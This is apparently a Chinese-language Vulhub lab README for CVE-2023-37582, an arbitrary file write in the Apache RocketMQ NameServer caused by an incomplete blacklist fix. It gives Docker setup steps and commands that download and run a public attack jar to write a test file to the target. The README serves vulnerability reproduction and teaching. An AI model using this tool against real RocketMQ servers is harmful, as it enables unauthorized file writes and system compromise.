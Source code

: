 # Apache RocketMQ NameServer 任意文件写入漏洞（CVE-2023-37582）

Apache RocketMQ是一个分布式消息和流处理平台，具有低延迟、高性能和可靠性、万亿级容量和灵活的可扩展性。

在RocketMQ版本5.1.1及以下版本中，NameServer组件存在一个任意文件写入漏洞。该漏洞存在于RocketMQ的NameServer组件的配置更新功能中。通过向NameServer发送`UPDATE_NAMESRV_CONFIG`命令，攻击者可以修改`configStorePath`配置项及其内容，从而导致任意文件写入。

该漏洞源于对[CVE-2023-33246](https://github.com/vulhub/vulhub/tree/master/rocketmq/CVE-2023-33246)的不完全修复。在处理CVE-2023-33246时，官方团队建立了一个不能被修改的配置项黑名单。然而，补丁错误地将黑名单指定为`configStorePathName`，而应该是`configStorePath`，导致了这一结果。

参考链接：

- <https://github.com/apache/rocketmq/pull/6843>
- <https://drun1baby.top/2023/11/21/CVE-2023-37582-Apache-RocketMQ-RCE-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/>
- <https://github.com/Malayke/CVE-2023-37582_EXPLOIT>

## 漏洞环境

执行如下命令启动一个RocketMQ NameServer 5.1.0：

```shell
docker compose up -d
```

环境启动后，RocketMQ的NameServer将会监听在9876端口。

## 漏洞复现

使用这个[工具](https://github.com/vulhub/rocketmq-attack)来复现漏洞并写入任意文件：

```shell
wget https://github.com/vulhub/rocketmq-attack/releases/download/1.1/rocketmq-attack-1.1-SNAPSHOT.jar
java -jar rocketmq-attack-1.1-SNAPSHOT.jar AttackNamesrv --target your-ip:9876 --path "/tmp/success" --content "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
```

执行完成后，可以验证文件是否写入成功：

```shell
cat /tmp/success
```

可见，内容写入成功：

![](1.png)
